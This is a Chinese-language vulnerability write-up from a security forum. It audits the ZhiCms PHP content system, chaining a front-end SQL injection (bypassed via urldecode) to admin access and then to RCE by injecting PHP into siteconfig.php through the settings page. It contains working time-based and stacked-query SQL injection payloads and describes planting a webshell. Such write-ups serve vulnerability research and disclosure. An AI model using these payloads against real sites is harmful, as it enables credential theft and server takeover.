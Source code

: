 

# zhicms 从前台 SQL 注入到 RCE - 先知社区

zhicms 从前台 SQL 注入到 RCE

- - -

### 0x00 前言

**产品说明：**  
ZhiCms 是一款专业的值得买系统，程序支持国内值得买海淘值得买，程序内置淘点金、以及亿起发淘金链、多麦多金链等功能。支持国内商城海淘商城，程序 PHP+MYSQL 小巧方便，SEO 性强，前台模板制作简单  
**最新源码下载地址：**  
[https://www.zhicms.cc/d/zhicms.zip](https://www.zhicms.cc/d/zhicms.zip)  
**环境说明：**  
PHP7.1.9+MYSQL

### 0x01 软件目录结构

```plain
/app 控制器及模型目录
/data/cache 缓存
/data/config 数据库及其他配置
/public 前端静态文件目录
/upload 上传文件的存放目录
/ZhiCms 存放 zhicms 框架核心文件
```

### 0x02 开始审计

#### SQL 注入

zhicms 的控制器使用 ZhiCms/base/Controller.php#arg() 方法来获取传入的数据。

[![](assets/1708482534-befd593f70035e6e576529b897a9616a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219211424-cd76cc5c-cf28-1.png)

可以看到在 arg() 方法做了一些替换的操作，并且使用 htmlspecialchars 转义$\_POST/$\_GET 的数据，ENT\_QUOTES 会对单引号跟双引号做转义，这里要么找整形注入要么找找能否绕过。

[![](assets/1708482534-1cbf88ae942266dfd2ed4d62962f3da1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219211809-536c5520-cf29-1.png)

[![](assets/1708482534-aeb6ee94684a3bbb5ac76a2644a6821a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219212113-c12b57d2-cf29-1.png)

在 app/index/controller/cheapscontroller.php#index() 方法发现使用 urldecode 来包裹 arg()，那么这些位置可以使用 url 编码来绕过 arg() 方法的安全处理。

[![](assets/1708482534-d9130f7bd88e1eec8789731424ae5d0b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219213132-31fb6c12-cf2b-1.png)

发包调试。

```plain
GET /index.php?r=index/cheaps/index&key=test&XDEBUG_SESSION_START=16722 HTTP/1.1
Host: localhost
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="103", ".Not/A)Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.53 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

下断点之后一直步入，直到 ZhiCms/base/db/MysqlPdoDriver.php#query() 方法，可以看到传入的 test 被拼接好了。

[![](assets/1708482534-c6be667a9efe3faa4432d2693c559a3a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219213754-15d1fc26-cf2c-1.png)

构造 payload 然后做两次 url 编码，测试触发 SQL 注入。  
payload：`test%' and (select * from (select if(ascii(substr(database(),1,1))>0,sleep(1),1))A)#`

[![](assets/1708482534-4a27468c3cdc1053ef2cf779502b13d1.gif)](https://xzfile.aliyuncs.com/media/upload/picture/20240219215000-c6b8b768-cf2d-1.gif)

在 ZhiCms/base/db/MysqlPdoDriver.php#\_bindParams() 方法，由于拼接好的 sql 语句直接传递给 prepare，这里也可以使用堆叠注入。  
payload：`test%';select sleep(1)#`

[![](assets/1708482534-8d92d6c425037a742e4214c99dbdfe86.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219215403-576bf32e-cf2e-1.png)

#### 文件写入 RCE

通过 SQL 注入我们可以获取到后台管理员的账户密码，也就是有后台管理员权限了。后台的功能点较多，我们可以从后台寻找 RCE 漏洞。

在 app/manage/controller/setcontroller.php#index() 找到可以写入文件 RCE。

```plain
public function index(){

        if(!IS_POST){
            $this->pagetext=array("基础设置","网站设置");
            include CONFIG_PATH . 'siteconfig.php';
            $this->ret=$Siteinfo;
            $this->display();
        }else{
         $sitename=$_POST['sitename'];
         $hosturl=$_POST['hosturl'];
         $logo=$_POST['logo'];
         $ewm=$_POST['ewm'];
         $pid=$_POST['pid'];
         $appkey=$_POST['appkey'];
         $secretKey=$_POST['secretKey'];
          $apiurl=$_POST['apiurl'];
          $code=$_POST['code'];
         $zhuan=$_POST['zhuan'];
        $download=$_POST['download'];

         $content="<?php

         \r\n\$Siteinfo=array(
              'sitename'=>'{$sitename}',
              'hosturl'=>'{$hosturl}',
              'logo'=>'{$logo}',
              'ewm'=>'{$ewm}',
              'pid'=>'{$pid}',
               'appkey'=>'{$appkey}',
                'secretKey'=>'{$secretKey}',
                'apiurl'=>'{$apiurl}',
                'code'=>'{$code}',
              'zhuan'=>'{$zhuan}',
              'download'=>'{$download}',

        );";
           $of = fopen(CONFIG_PATH . 'siteconfig.php', 'w');
              if ($of) {
                  fwrite($of, $content);
              }
              fclose($of);
              echo json_encode(array("info" => "设置成功", "status" => "y"));
        }

    }
```

构造请求写入一句话木马 getshell。

[![](assets/1708482534-df48ee09e29a89203c7919f07d3011c0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219224045-dd3f3f32-cf34-1.png)

RCE。

[![](assets/1708482534-5197188db4788040f2ce1987df8c9aaf.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219224237-201789ae-cf35-1.png)

shell 文件在 data/config/siteconfig.php。

[![](assets/1708482534-b5cf52faca7a90459984dc81e98aa617.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219224334-4269dcaa-cf35-1.png)

### 参考

PDO 场景下的 SQL 注入探究  
[https://xz.aliyun.com/t/3950?time\_\_1311=n4%2BxnD0DBDgGG%3DG8%2BGODlhje0%3Dd8eRhghbD&alichlgref=https%3A%2F%2Fcn.bing.com%2F#toc-4](https://xz.aliyun.com/t/3950?time__1311=n4%2BxnD0DBDgGG%3DG8%2BGODlhje0%3Dd8eRhghbD&alichlgref=https%3A%2F%2Fcn.bing.com%2F#toc-4)
